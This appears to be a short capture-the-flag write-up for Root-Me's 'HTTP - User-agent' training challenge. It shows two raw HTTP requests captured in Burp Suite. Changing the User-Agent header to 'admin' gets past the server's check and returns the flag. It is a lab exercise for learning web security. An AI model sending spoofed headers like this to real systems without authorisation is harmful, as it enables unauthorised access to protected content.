 # Challange Info

Name : HTTP - User-agent

Difficulty : Very easy

Category : Web Server

Link : https://www.root-me.org/en/Challenges/Web-Server/HTTP-User-agent

# Writeup

Refreshing the webpage and capturing the request through burpsuite.

Sending the request to repeater.

```
GET /web-serveur/ch2/ HTTP/1.1

Host: challenge01.root-me.org

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

Changing user-agent to `admin`.

```
GET /web-serveur/ch2/ HTTP/1.1

Host: challenge01.root-me.org

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: admin

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request I got the flag.
